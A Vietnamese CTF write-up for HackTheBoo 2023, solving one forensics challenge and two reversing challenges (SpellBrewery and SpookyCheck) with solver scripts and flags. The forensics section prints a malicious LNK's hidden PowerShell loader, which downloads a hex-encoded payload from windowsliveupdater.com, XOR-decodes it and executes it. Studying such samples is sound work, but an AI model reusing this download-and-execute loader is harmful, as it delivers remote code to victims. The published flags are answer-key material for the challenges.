# HACKTHEBOO2023
## FORENSICS
### Bài 1: Trick or Treat 
 Another night staying alone at home during Halloween. But someone wanted to play a Halloween game with me. They emailed me the subject “Trick or Treat” and an attachment. When I opened the file, a black screen appeared for a second on my screen. It wasn’t so scary; maybe the season is not so spooky after all.

 > [forensics_trick_or_treat (1).zip](https://github.com/ClownCS/HACKTHEBOO2023/files/13205169/forensics_trick_or_treat.1.zip)

#### Solution:
 Giải nén file về, mình nhận được file pcap và file lnk. Trước hết mình sẽ xem một chút về properties của file lnk. Ở phần target ta thấy được ``C:\Windows\system32\cmd.exe /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';$UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, l``
 Tiếp theo mình dùng ``lnkinfo`` để lấy đầy đủ script của file lnk. Và ta nhận được đầy đủ script của nó.



 Tuy nhiên khá là khó nhìn nên mình sẽ sửa lại một chút cho dễ nhìn:

 ```bash
- /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a -windowstyle hidden "$asvods ='';

- $UserAgents = @('Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/58.0.3029.110 Safari/537.36','Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Edge/15.15063','Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; AS; rv:11.0) like Gecko');

- $RandomUserAgent = $UserAgents | Get-Random;$WebClient = New-Object System.Net.WebClient;$WebClient.Headers.Add('User-Agent', $RandomUserAgent);

- $boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';

- for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];

- $decodedChar = [char]([convert]::ToInt16($bodms, 16));

- $xoredChar=[char]([byte]($decodedChar) -bxor 0x1d);

- $vurnwos = $vurnwos + $xoredChar};

- Invoke-Command -ScriptBlock ([Scriptblock]::Create($vurnwos));

- Invoke-Command -ScriptBlock ([Scriptblock]::Create($asvods));
```
 Dễ nhìn hơn rồi, giờ ta sẽ phân tích đoạn script này làm gì. Bắt đầu từ đoạn ``for($i=0;$i -le $boddmei.Length-2;$i=$i+2){$bodms=$boddmei[$i]+$boddmei[$i+1];`` đây là một vòng for chạy từ giá trị đầu tiên của chuỗi sau đó biến ``bodms`` có nhiệm vụ lưu hai giá trị liên tiếp của chuỗi ``boddmei``. Tiếp đó convert chuỗi ``bodms`` sang hex rồi xor với 0x1d xong lưu vào chuỗi ``vurnwos``. Vậy thì cơ bản là script sẽ làm như thế vậy nếu ta tìm được đoạn đã bị encrypted thì phải làm gì để kiếm được giá trị ban đầu? Đơn giản chỉ cần xor từng byte của chuỗi đó với 0x1d. Vậy thì giờ tìm đoạn đó ở đâu, ta quay lại file pcap. Với manh mối là  ``$boddmei = $WebClient.DownloadString('http://windowsliveupdater.com');$vurnwos ='';``. Ta sẽ kiếm xem có packet nào liên quan tới trang web này không. 



 Vậy là ta tìm được packet liên quan tới trang web và nó là một chuỗi hex vậy thì nhiệm vụ ta chỉ cần xor ngược nó với 0x1d thôi. Đây là script của mình

```python
cc="7b68737e697472733d596f726d5f726530486d71727c793d661717465e70797178695f74737974737a353440176d7c6f7c703d35173d3d3d3d17464d7c6f7c707869786f3d35507c73797c69726f643d203d39496f6878313d4b7c7168785b6f72704d746d78717473783d203d39496f6878344017465c71747c6e353f7b3f344017466e696f74737a40394e72686f7e785b7471784d7c697517343d1739596f726d5f72655c7e7e786e6e49727678733d203d3f55495f666e2964424d68706d762c2c2c2c2c2c2c733c3c3c603f17397268696d68695b7471783d203d4e6d717469304d7c69753d394e72686f7e785b7471784d7c69753d3071787c7b1739497c6f7a78695b7471784d7c6975203f32397268696d68695b7471783f17397c6f7a3d203d3a663d3f6d7c69753f273d3f3a3d363d39497c6f7a78695b7471784d7c69753d363d3a3f313d3f707279783f273d3f7c79793f313d3f7c6869726f78737c70783f273d696f6878313d3f706869783f273d7b7c716e783d603a17397c686975726f74677c697472733d203d3f5f787c6f786f3d3f3d363d39596f726d5f72655c7e7e786e6e4972767873173975787c79786f6e3d203d53786a30527f77787e693d3f4e646e697870335e727171787e697472736e335a7873786f747e3359747e697472737c6f6446464e696f74737a4031464e696f74737a40403f173975787c79786f6e335c7979353f5c686975726f74677c697472733f313d397c686975726f74677c6974727334173975787c79786f6e335c7979353f596f726d7f7265305c4d54305c6f7a3f313d397c6f7a34173975787c79786f6e335c7979353f5e7273697873693049646d783f313d3a7c6d6d71747e7c6974727332727e697869306e696f787c703a341754736b727678304f786e695078697572793d30486f743d7569696d6e2732327e72736978736933796f726d7f72657c6d74337e7270322f327b7471786e32686d71727c793d305078697572793d4d726e693d3054735b7471783d394e72686f7e785b7471784d7c69753d3055787c79786f6e3d3975787c79786f6e176017176a75747178352c346617173d3d5c79793049646d783d305c6e6e78707f7164537c70783d4e646e697870334a747379726a6e335b726f706e314e646e69787033596f7c6a74737a17173d3d396e7e6f7878736e3d203d464a747379726a6e335b726f706e334e7e6f7878734027275c71714e7e6f7878736e17173d3d3969726d3d3d3d3d203d35396e7e6f7878736e335f726873796e3349726d3d3d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d3971787b693d3d3d203d35396e7e6f7878736e335f726873796e3351787b693d3d3d613d50787c6e686f7830527f77787e693d3050747374706870343350747374706870173d3d396a747969753d3d203d35396e7e6f7878736e335f726873796e334f747a75693d3d613d50787c6e686f7830527f77787e693d30507c65747068703433507c6574706870173d3d397578747a75693d203d35396e7e6f7878736e335f726873796e335f72696972703d613d50787c6e686f7830527f77787e693d30507c65747068703433507c657470687017173d3d397f726873796e3d3d3d203d46596f7c6a74737a334f787e697c737a71784027275b6f727051494f5f353971787b69313d3969726d313d396a74796975313d397578747a756934173d3d397f706d3d3d3d3d3d3d203d53786a30527f77787e693d3049646d78537c70783d4e646e69787033596f7c6a74737a335f7469707c6d3d305c6f7a687078736951746e693d354674736940397f726873796e336a7479697534313d354674736940397f726873796e337578747a756934173d3d397a6f7c6d75747e6e3d203d46596f7c6a74737a335a6f7c6d75747e6e4027275b6f727054707c7a7835397f706d3417173d3d397a6f7c6d75747e6e335e726d645b6f72704e7e6f78787335397f726873796e3351727e7c69747273313d46596f7c6a74737a334d7274736940272758706d6964313d397f726873796e336e7467783417173d3d397f706d334e7c6b78353f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f34173d3d397a6f7c6d75747e6e3359746e6d726e783534173d3d397f706d3359746e6d726e783534173d3d173d3d6e697c6f69306e7178786d3d304e787e7273796e3d2c28173d3f3978736b27484e584f4d4f525b545158415c6d6d597c697c4151727e7c71414978706d413978736b277e72706d6869786f737c7078305e7c6d69686f78336d737a3f3d613d596f726d5f726530486d71727c791760"
b = bytes.fromhex(cc)
for i in range(len(b)):
    print(chr(int(b[i])^0x1d),end ="")
```
 Flag: ***HTB{s4y_Pumpk1111111n!!!}***



## REVERSING
### Bài 1: SpellBrewery
I’ve been hard at work in my spell brewery for days, but I can’t crack the secret of the potion of eternal life. Can you uncover the recipe?

> [rev_spellbrewery.zip](https://github.com/ClownCS/HACKTHEBOO2023/files/13207241/rev_spellbrewery.zip)

#### Solution:
 Mình dùng dnSpy để đọc file SpellBrewery.dll, tại đây mình chú ý tới hàm ``BrewSpell``



 Phân tích một chút thì chương trình có tổng cộng có 5 chức năng như hình dưới:
```
1. Là để hiện các nguyên liệu có
2. Là hiện các nguyên liệu đã được thêm vào
3. Là thêm nguyên liệu
4. Nấu
5. Xóa các công thức hiện tại
6. Là thoát
```



 Vậy thì khi đọc hàm ``BrewSpell`` . Nếu công thức chúng ta thêm vào đúng thì sẽ in ra flag ``bool flag2 = Brewery.recipe.SequenceEqual(from name in Brewery.correct select new Ingredient(name));`` và mảng correct đã có:



 Tới đây có 3 cách: một là nhập tay theo thứ tự của mảng correct (*￣3￣)╭ , hai là code script giải vì đã có được ``byte[] bytes = (from ing in Brewery.recipe select (byte)(Array.IndexOf<string>(Brewery.IngredientNames, ing.ToString()) + 32)).ToArray<byte>();``, cuối cùng là sửa file dll rồi quăng vô lại file chương trình rồi chạy ra flag. Ở đây mình chọn cách thứ 2, đây là script của mình:

 ```python
Ingredients=["Witch's Eye","Bat Wing","Ghostly Essence","Toadstool Extract","Vampire Blood","Mandrake Root","Zombie Brain","Ghoul's Breath","Spider Venom", "Black Cat's Whisker", "Werewolf Fur", "Banshee's Wail", "Spectral Ash", "Pumpkin Spice", "Goblin's Earwax", "Haunted Mist", "Wraith's Tear", "Serpent Scale", "Moonlit Fern", "Cursed Skull", "Raven Feather", "Wolfsbane", "Frankenstein's Bolt", "Wicked Ivy", "Screaming Banshee Berry", "Mummy's Wrappings", "Dragon's Breath", "Bubbling Cauldron Brew", "Gorehound's Howl", "Wraithroot", "Haunted Grave Moss", "Ectoplasmic Slime", "Voodoo Doll's Stitch", "Bramble Thorn", "Hocus Pocus Powder", "Cursed Clove", "Wicked Witch's Hair", "Halloween Moon Dust", "Bog Goblin Slime", "Ghost Pepper", "Phantom Firefly Wing", "Gargoyle Stone", "Zombie Toenail", "Poltergeist Polyp", "Spectral Goo", "Salamander Scale", "Cursed Candelabra Wax", "Witch Hazel", "Banshee's Bane", "Grim Reaper's Scythe", "Black Widow Venom", "Moonlit Nightshade", "Ghastly Gourd", "Siren's Song Seashell", "Goblin Gold Dust", "Spider Web Silk", "Haunted Spirit Vine", "Frog's Tongue", "Mystic Mandrake", "Widow's Peak Essence", "Wicked Warlock's Beard", "Crypt Keeper's Cryptonite", "Bewitched Broomstick Bristle", "Dragon's Scale Shimmer", "Vampire Bat Blood", "Graveyard Grass", "Halloween Harvest Pumpkin", "Cursed Cobweb Cotton", "Phantom Howler Fur", "Wraithbone", "Goblin's Green Slime", "Witch's Brew Brew", "Voodoo Doll Pin", "Bramble Berry", "Spooky Spellbook Page", "Halloween Cauldron Steam", "Spectral Spectacles", "Salamander's Tail", "Cursed Crypt Key", "Pumpkin Patch Spice", "Haunted Hay Bale", "Banshee's Bellflower", "Ghoulish Goblet", "Frankenstein's Lab Liquid", "Zombie Zest Zest", "Werewolf Whisker", "Gargoyle Gaze", "Black Cat's Meow", "Wolfsbane Extract", "Goblin's Gold", "Phantom Firefly Fizz", "Spider Sling Silk", "Widow's Weave", "Wraith Whisper", "Siren's Serenade", "Moonlit Mirage", "Spectral Spark", "Dragon's Roar", "Banshee's Banshee", "Witch's Whisper", "Ghoul's Groan", "Toadstool Tango", "Vampire's Kiss", "Bubbling Broth", "Mystic Elixir", "Cursed Charm"]
recipe=["Phantom Firefly Wing", "Ghastly Gourd", "Hocus Pocus Powder", "Spider Sling Silk", "Goblin's Gold", "Wraith's Tear", "Werewolf Whisker", "Ghoulish Goblet", "Cursed Skull", "Dragon's Scale Shimmer", "Raven Feather", "Dragon's Scale Shimmer", "Zombie Zest Zest", "Ghoulish Goblet", "Werewolf Whisker", "Cursed Skull", "Dragon's Scale Shimmer", "Haunted Hay Bale", "Wraith's Tear", "Zombie Zest Zest", "Serpent Scale", "Wraith's Tear", "Cursed Crypt Key", "Dragon's Scale Shimmer", "Salamander's Tail", "Raven Feather", "Wolfsbane", "Frankenstein's Lab Liquid", "Zombie Zest Zest", "Cursed Skull", "Ghoulish Goblet", "Dragon's Scale Shimmer", "Cursed Crypt Key", "Wraith's Tear", "Black Cat's Meow", "Wraith Whisper"]
for i in range(len(recipe)):
  for j in range(len(Ingredients)):
    if recipe[i]==Ingredients[j]:
        print(chr(j+32),end="")
```
  Flag:***HTB{y0ur3_4_tru3_p0t10n_m45st3r_n0w}***




### Bài 2: SpookyCheck
My new tool will check if your password is spooky enough for use during Halloween - but watch out for snakes…

> [rev_spookycheck.zip](https://github.com/ClownCS/HACKTHEBOO2023/files/13208837/rev_spookycheck.zip)

#### Solution:
 Tải file về giải nén thì mình nhận ra đây là file ``pyc``. Mình liền check xem file đó là phiên bản gì tuy nhiên lần này mình nhận được ``check.pyc: data``. Vậy thì ban đầu mình nghĩ rằng có thể là file ``pyc`` này đã bị cắt bớt header bytes nên mình đã tìm cách thêm header bytes từ python version 3.1-3.8 bởi hai tools decompile file ``pyc`` tốt mình từng dùng đó là ``uncompyle6`` và ``decompyle3`` chỉ hỗ trợ dưới python 3.8. Tuy nhiên thứ mình nhận được không là gì cả. 



 Sau đó mình chợt nhớ ra một tools đó ``pycdc`` - ``https://github.com/zrax/pycdc``. Mình thử xài lệnh ``./pycdc`` để decompile thử thì kết quả mình chỉ nhận được một khúc đầu của chương trình, khúc đằng sau có vẻ là không thể decompile được 😭.



  Có vẻ đến đây thì ta chỉ nhận được đoạn này là có ý nghĩa:
```python
KEY = b'SUP3RS3CR3TK3Y'
CHECK = bytearray(b'\xe9\xef\xc0V\x8d\x8a\x05\xbe\x8ek\xd9yX\x8b\x89\xd3\x8c\xfa\xdexu\xbe\xdf1\xde\xb6\\')

def transform(flag):
    return enumerate(flag)()
```
 Nếu decompile không được thì ta đành phải dissassemble vậy. Mình sử dụng lệnh ``./pycdas`` ta được đoạn sau:

```
check.pyc (Python 3.11)
[Code]
    File Name: check.py
    Object Name: <module>
    Qualified Name: <module>
    Arg Count: 0
    Pos Only Arg Count: 0
    KW Only Arg Count: 0
    Stack Size: 4
    Flags: 0x00000000
    [Names]
        'KEY'
        'bytearray'
        'CHECK'
        'transform'
        'check'
        '__name__'
        'print'
        'input'
        'inp'
        'encode'
    [Locals+Names]
    [Constants]
        b'SUP3RS3CR3TK3Y'
        b'\xe9\xef\xc0V\x8d\x8a\x05\xbe\x8ek\xd9yX\x8b\x89\xd3\x8c\xfa\xdexu\xbe\xdf1\xde\xb6\\'
        [Code]
            File Name: check.py
            Object Name: transform
            Qualified Name: transform
            Arg Count: 1
            Pos Only Arg Count: 0
            KW Only Arg Count: 0
            Stack Size: 4
            Flags: 0x00000003 (CO_OPTIMIZED | CO_NEWLOCALS)
            [Names]
                'enumerate'
            [Locals+Names]
                'flag'
            [Constants]
                None
                [Code]
                    File Name: check.py
                    Object Name: <listcomp>
                    Qualified Name: transform.<locals>.<listcomp>
                    Arg Count: 1
                    Pos Only Arg Count: 0
                    KW Only Arg Count: 0
                    Stack Size: 8
                    Flags: 0x00000013 (CO_OPTIMIZED | CO_NEWLOCALS | CO_NESTED)
                    [Names]
                        'KEY'
                        'len'
                    [Locals+Names]
                        '.0'
                        'i'
                        'f'
                    [Constants]
                        24
                        255
                        74
                    [Disassembly]
                        0       RESUME                        0
                        2       BUILD_LIST                    0
                        4       LOAD_FAST                     0: .0
                        6       FOR_ITER                      54 (to 116)
                        8       UNPACK_SEQUENCE               2
                        12      STORE_FAST                    1: i
                        14      STORE_FAST                    2: f
                        16      LOAD_FAST                     2: f
                        18      LOAD_CONST                    0: 24
                        20      BINARY_OP                     0 (+)
                        24      LOAD_CONST                    1: 255
                        26      BINARY_OP                     1 (&)
                        30      LOAD_GLOBAL                   0: KEY
                        42      LOAD_FAST                     1: i
                        44      LOAD_GLOBAL                   3: NULL + len
                        56      LOAD_GLOBAL                   0: KEY
                        68      PRECALL                       1
                        72      CALL                          1
                        82      BINARY_OP                     6 (%)
                        86      BINARY_SUBSCR
                        96      BINARY_OP                     12 (^)
                        100     LOAD_CONST                    2: 74
                        102     BINARY_OP                     10 (-)
                        106     LOAD_CONST                    1: 255
                        108     BINARY_OP                     1 (&)
                        112     LIST_APPEND                   2
                        114     JUMP_BACKWARD                 55
                        116     RETURN_VALUE
            [Disassembly]
                0       RESUME                        0
                2       LOAD_CONST                    1: <CODE> <listcomp>
                4       MAKE_FUNCTION                 0
                6       LOAD_GLOBAL                   1: NULL + enumerate
                18      LOAD_FAST                     0: flag
                20      PRECALL                       1
                24      CALL                          1
                34      GET_ITER
                36      PRECALL                       0
                40      CALL                          0
                50      RETURN_VALUE
        [Code]
            File Name: check.py
            Object Name: check
            Qualified Name: check
            Arg Count: 1
            Pos Only Arg Count: 0
            KW Only Arg Count: 0
            Stack Size: 3
            Flags: 0x00000003 (CO_OPTIMIZED | CO_NEWLOCALS)
            [Names]
                'transform'
                'CHECK'
            [Locals+Names]
                'flag'
            [Constants]
                None
            [Disassembly]
                0       RESUME                        0
                2       LOAD_GLOBAL                   1: NULL + transform
                14      LOAD_FAST                     0: flag
                16      PRECALL                       1
                20      CALL                          1
                30      LOAD_GLOBAL                   2: CHECK
                42      COMPARE_OP                    2 (==)
                48      RETURN_VALUE
        '__main__'
        '🎃 Welcome to SpookyCheck 🎃'
        '🎃 Enter your password for spooky evaluation 🎃'
        '👻 '
        "🦇 Well done, you're spookier than most! 🦇"
        '💀 Not spooky enough, please try again later 💀'
        None
    [Disassembly]
        0       RESUME                        0
        2       LOAD_CONST                    0: b'SUP3RS3CR3TK3Y'
        4       STORE_NAME                    0: KEY
        6       PUSH_NULL
        8       LOAD_NAME                     1: bytearray
        10      LOAD_CONST                    1: b'\xe9\xef\xc0V\x8d\x8a\x05\xbe\x8ek\xd9yX\x8b\x89\xd3\x8c\xfa\xdexu\xbe\xdf1\xde\xb6\\'
        12      PRECALL                       1
        16      CALL                          1
        26      STORE_NAME                    2: CHECK
        28      LOAD_CONST                    2: <CODE> transform
        30      MAKE_FUNCTION                 0
        32      STORE_NAME                    3: transform
        34      LOAD_CONST                    3: <CODE> check
        36      MAKE_FUNCTION                 0
        38      STORE_NAME                    4: check
        40      LOAD_NAME                     5: __name__
        42      LOAD_CONST                    4: '__main__'
        44      COMPARE_OP                    2 (==)
        50      POP_JUMP_FORWARD_IF_FALSE     88 (to 228)
        52      PUSH_NULL
        54      LOAD_NAME                     6: print
        56      LOAD_CONST                    5: '🎃 Welcome to SpookyCheck 🎃'
        58      PRECALL                       1
        62      CALL                          1
        72      POP_TOP
        74      PUSH_NULL
        76      LOAD_NAME                     6: print
        78      LOAD_CONST                    6: '🎃 Enter your password for spooky evaluation 🎃'
        80      PRECALL                       1
        84      CALL                          1
        94      POP_TOP
        96      PUSH_NULL
        98      LOAD_NAME                     7: input
        100     LOAD_CONST                    7: '👻 '
        102     PRECALL                       1
        106     CALL                          1
        116     STORE_NAME                    8: inp
        118     PUSH_NULL
        120     LOAD_NAME                     4: check
        122     LOAD_NAME                     8: inp
        124     LOAD_METHOD                   9: encode
        146     PRECALL                       0
        150     CALL                          0
        160     PRECALL                       1
        164     CALL                          1
        174     POP_JUMP_FORWARD_IF_FALSE     13 (to 202)
        176     PUSH_NULL
        178     LOAD_NAME                     6: print
        180     LOAD_CONST                    8: "🦇 Well done, you're spookier than most! 🦇"
        182     PRECALL                       1
        186     CALL                          1
        196     POP_TOP
        198     LOAD_CONST                    10: None
        200     RETURN_VALUE
        202     PUSH_NULL
        204     LOAD_NAME                     6: print
        206     LOAD_CONST                    9: '💀 Not spooky enough, please try again later 💀'
        208     PRECALL                       1
        212     CALL                          1
        222     POP_TOP
        224     LOAD_CONST                    10: None
        226     RETURN_VALUE
        228     LOAD_CONST                    10: None
        230     RETURN_VALUE
```
